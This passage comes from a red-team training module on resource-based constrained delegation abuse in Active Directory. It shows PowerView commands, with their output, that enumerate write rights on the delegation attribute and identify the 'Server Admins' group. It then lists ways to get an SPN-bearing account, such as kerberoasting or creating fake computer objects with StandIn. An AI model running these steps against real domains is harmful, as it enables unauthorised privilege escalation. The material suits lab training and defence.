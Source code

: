 ```batch
PS C:\Users\Attacker> ipmo C:\Tools\PowerSploit\Recon\PowerView.ps1
PS C:\Users\Attacker> $Cred = Get-Credential CONTOSO\rsteel
PS C:\Users\Attacker> Get-DomainComputer -Server 10.10.120.1 -Credential $Cred | Get-DomainObjectAcl -Server 10.10.120.1 -Credential $Cred | ? { $_.ObjectAceType -eq '3f78c3e5-f79a-46bd-a0b8-9d18116ddc79' -and $_.ActiveDirectoryRights -Match 'WriteProperty' } | select ObjectDN,SecurityIdentifier

ObjectDN                                        SecurityIdentifier
--------                                        ------------------
CN=LON-WS-1,OU=Member Servers,DC=contoso,DC=com S-1-5-21-3926355307-1661546229-813047887-1107
CN=LON-FS-1,OU=Member Servers,DC=contoso,DC=com S-1-5-21-3926355307-1661546229-813047887-1107
```

This output shows that 'something' with the SID of `S-1-5-21-3926355307-1661546229-813047887-1107` has the privilege we're looking for on both _lon-ws-1_ and _lon-fs-1_.  We can search through the users and groups in Active Directory to find to which this SID belongs.

```batch
PS C:\Users\Attacker> Get-ADGroup -Filter 'objectsid -eq "S-1-5-21-3926355307-1661546229-813047887-1107"' -Server 10.10.120.1 -Credential $Cred

DistinguishedName : CN=Server Admins,CN=Users,DC=contoso,DC=com
GroupCategory     : Security
GroupScope        : Global
Name              : Server Admins
ObjectClass       : group
ObjectGUID        : 5ceea890-d8b7-47f3-918f-f6d3d040d70a
SamAccountName    : Server Admins
SID               : S-1-5-21-3926355307-1661546229-813047887-1107
```

This means that any member of the 'Server Admins' group can modify the attribute on these two computers.

In the scenario outlined above, the privilege has been properly applied by granting it only on the relevant property.  However, you may see instances where the privilege is granted in more egregious ways, such as a GenericWrite or GenericAll on an entire object.  You will therefore have to take this into account when looking for these DACL abuse primitives.

### Account with an SPN <a href="#el_1740157023998_1268" id="el_1740157023998_1268"></a>

The other requirement for RBCD abuse to work is access to an account that has an SPN set.  This is because all delegation, whether it be unconstrained, constrained, or resource-based, can only be configured on accounts that have an SPN.  This makes some amount of sense since an SPN is fundamental to how Kerberos works.

* Other computer accounts can be used if you have elevated privileges to SYSTEM anywhere, as every computer has a default set of SPNs such as HOST, RestrictedKrbHost, TERMSRV, and WSMAN.
* Service accounts can be used if you have obtained their credentials through an attack such as [kerberoasting](https://www.zeropointsecurity.co.uk/path-player?courseid=red-team-ops\&unit=67851a86ba9789af1107f5f9).
* If you don't have any of the above, a last ditch attempt can be to add your own computer object to the domain.  Active Directory contains an attribute called `msDS-MachineAccountQuota` which controls the number of computer accounts that a user is allowed to create in the domain (yes, even standard domain users).  This is 10 by default.  Tools such as [StandIn](https://github.com/FuzzySecurity/StandIn) can create these fake computer objects via LDAP.
